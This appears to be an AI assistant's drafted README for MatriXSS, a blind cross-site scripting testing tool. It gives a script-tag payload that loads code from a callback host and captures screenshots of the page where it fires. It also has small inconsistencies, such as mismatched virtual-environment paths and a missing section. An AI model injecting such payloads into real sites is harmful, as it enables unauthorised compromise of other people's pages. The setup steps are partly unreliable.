 Here’s a README layout for your **MatriXSS** project, inspired by the uploaded document:

---

# MatriXSS

## Table of Contents
1. [Introduction](#introduction)
2. [Key Features](#key-features)
3. [Installation](#installation)
4. [Usage](#usage)
5. [Technical Overview](#technical-overview)
6. [Examples](#examples)
7. [Design Philosophy](#design-philosophy)
8. [Contributing](#contributing)
9. [Future Work](#future-work)
10. [Acknowledgments](#acknowledgments)
11. [License](#license)

---

## Introduction
**MatriXSS** is an open-source tool designed to demonstrate and communicate the impact of **blind Cross-Site Scripting (XSS)** vulnerabilities. Developed in collaboration with **Hackify**, this project aims to address the challenges organizations face in understanding and mitigating blind XSS attacks.

Blind XSS attacks occur when the payload is triggered in a context inaccessible to the attacker, such as an admin interface. MatriXSS bridges the gap between technical vulnerability details and actionable insights by providing **visual demonstrations** and reports.

---

## Key Features
- **Visual Impact Demonstrations**: Show the effects of blind XSS in a clear, "matrix-style" visualization.
- **Custom Payload Support**: Tailor payloads to simulate real-world attacks.
- **Stakeholder-Friendly Outputs**: Simplified visuals and summaries for non-technical audiences.

---

## Installation

### Prerequisites
- Python 3.8+
- Required libraries listed in `requirements.txt`

### Run locally
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/MatriXSS.git
   cd MatriXSS
   ```
2. Create a virtual environment:
   ```bash
   # Windows:
   python -m venv venv

   # Linux / MacOS:
   python3 -m venv venv
   ```
3. Activate the virtual enviroment
    ```bash
    # Windows
    venv\Scripts\activate
    
    # Linux / MacOS
    . ./.venv/bin/activate
   ``` 
4. Install dependencies to the virtual environment:
   ```bash
   # Windows:
   pip install -r requirements.txt

   # Linux / MacOS:
   venv/bin/pip install -r requirements.txt
   ```

5. Start the application
   ```bash
   # Windows:
   python .\main.py
   
   # Linux / MacOS
   python3 ./main.py
   ``` 
  On windows:
  
### Run in Docker
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/MatriXSS.git
   cd MatriXSS
   ```
2. Docker compose
   ```bash
   docker compose up
   ```
---

## Usage
1. **Select a Payload**: Choose or customize a JavaScript payload to test a target.
2. **Inject Payload**: Manually input the payload into a vulnerable entry point (e.g., form fields or URL parameters).
3. **Callback Handling**: When a payload is executed, the tool automatically sends a **callback** to the server, capturing a screenshot of the vulnerability in action.
4. **Analyze Results**: Use the results page to review:
   - URL of the vulnerability.
   - Payload executed.
   - Screenshot of the impacted page.

### Basic Example
```bash
python matrixss.py --url http://example.com
```

## Technical Overview
### Core Workflow
1. **Payload Selection**: Choose a custom JavaScript payload to trigger vulnerabilities.
2. **Exploitation**: Inject payloads into potential entry points on a target web application.
3. **Data Collection**: Log vulnerabilities detected during the exploitation phase.
4. **Results Visualization**: Display findings in a visual, interactive format for stakeholders.

### Supported Tools
MatriXSS integrates concepts inspired by:
- **Toxxsin**: For advanced payload handling.
- **OWASP ZAP**: For general web application security.
- **XSSHunter**: For blind XSS-specific scenarios.

---

## Examples

### Manual XSS Test
1. Choose a payload:
   ```javascript
   '<script src="{APPLICATION_HOST_URL}"></script>'
   ```
2. Inject it into a vulnerable input field or URL parameter.
3. When the payload is triggered, the tool automatically:
   - Sends a callback to the server.
   - Captures a screenshot.
4. Review results on the **/results** page.


**Output**:
- Vulnerable URL: `/form`
- Payload: `alert('XSS Detected')`

### Visual Output
The tool generates a dashboard with:
- Screenshots of exploited pages.

---

## Design Philosophy
- **Accessibility**: Bridge technical complexity with intuitive visuals for non-technical audiences.
- **Modularity**: Enable integration with existing tools like OWASP ZAP or Jenkins.
- **Community-Driven**: Leverage open-source contributions to improve functionality and scope.

---

## Contributing
We welcome contributions! To contribute:
1. Fork the repository.
2. Create a branch for your feature:
   ```bash
   git checkout -b feature-name
   ```
3. Submit a pull request with a detailed description.

---

## Future Work
Planned improvements include:
- Metadata in screenshots to be added(add identifier to screenshots)
- Application screenshots need to be linked to specific user accounts
- Add functionality to register accounts
- Visualize where vulnerabilty is found.
- Implement security into webapplication.

---


---

## License
MatriXSS is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

Let me know if you'd like to refine any sections or add specific technical details!
